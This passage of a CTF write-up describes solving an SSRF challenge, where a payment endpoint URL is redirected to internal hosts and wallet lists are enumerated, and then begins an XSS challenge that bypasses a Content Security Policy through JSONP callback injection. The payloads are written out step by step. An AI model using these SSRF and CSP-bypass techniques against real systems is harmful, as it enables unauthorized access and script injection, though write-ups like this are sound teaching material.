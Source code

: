 ```
This can't just be for show, so let's try to manipulate its value and see what happens. We try the following values:
- `http://google.com` gives the error `Timeout awaiting 'request' for 5000ms`. This at least confirms that the `paymentEndpoint` value is in fact being used and not just a dummy attribute.
- `google.com` gives the error `Invalid URL: google.com/wallets/accountNumber/balance`. Well, this tells us the URL it was trying to access. But we need the `http` protocol in any case. Let's redirect it to our own endpoint and see if it's sending any other info.
- `http://evil.com` (our own domain) gives the earlier error `Timeout awaiting 'request' for 5000ms`, so it probably isn't able to access the WAN.
- `http://payment-api` gives the error `connect ECONNREFUSED 172.23.0.3:80`, which at least confirms that it's a LAN address.
- `http://payment-api:9090/hax` gives the error `Cannot GET /hax/wallets/accountNumber/balance\n\nTry GETting /help for possible endpoints`. Now we're on to something.
- `http://payment-api:9090/help` doesn't help: `Cannot GET /help/wallets/accountNumber/balance\n\nTry GETting /help for possible endpoints` Since it's a GET request, we can chuck in a `#` to ignore the rest of the URL.
- `http://payment-api:9090/help#` gives the error
```
{"endpoints":[{"method":"GET","path":"/wallets/:id/balance","description":"check wallet balance"},{"method":"GET","path":"/wallets","description":"list all wallets"},{"method":"GET","path":"/help","description":"this help message"}]}
```
Finally, something useful! We probably want to list all wallets now.
- `http://payment-api:9090/wallets#` gives the error `[{"account":"1337-420-69-93dcbbcd","balance":133500}]`.

At this point, we make an educated guess that we can use the account `1337-420-69-93dcbbcd` to purchase up to €1335. We already know from before that we can get a maximum discount of €2 from having €10 worth of goods, so that's exactly what we need to buy the flag. And this turns out to be a resounding success.

The flag, as before, is `CSCG{c00l_k1ds_st4y_@_/home/}`.

## Xmas Shopping Site
This was by far the most time-consuming challenge, even surpassing gems like **M4z3 Runn3r** and **Squirrel as a Service**. Part of the reason was because it's our first experience with XSS, and another was because we found so many paths that we thought would work, but just barely missed the solution by an inch.

Anyway, Stage 1 starts off simple enough. The first thing you want to do is always try to make a javascript alert appear. There's a clear attack vector here where searching for any text makes it appear on the page.

So we start off with the bare minimum: we perform a search for `<script>alert(1)</script>`. Chrome gives us the following error:
> Refused to execute inline script because it violates the following Content Security Policy directive: "default-src 'self' http://*.xss.allesctf.net". Either the 'unsafe-inline' keyword, a hash ('sha256-S8S/VNmXuUuoIR6OhqBqwIiIkuCxXq31hCCHAHnicV8='), or a nonce ('nonce-...') is required to enable inline execution. Note also that 'script-src' was not explicitly set, so 'default-src' is used as a fallback.

This basically means that we cannot use inline javascript. The `default-src` policy also means we cannot make it read a .js file hosted elsewhere. These of course imply that we want to use JSONP injection, and looking through the page source it seems we have just the thing in `items.php`.

So let's test it with the search text `<script src='/items.php?cb=alert(1)'></script>`. Success! We can also look at the the Network tab in chrome to see the JSONP we are actually receiving:
```
alert(1)([{"title": "Weihnachtsbaum", "url": "3.png", "text": "Plastik und voll schön."},{"title": "Christbaumkugel", "url": "1.png", "text": "Rund und bunt."},{"title": "Schlitten", "url": "2.png", "text": "Es ist glatt, er ist schnell!"}])
```

```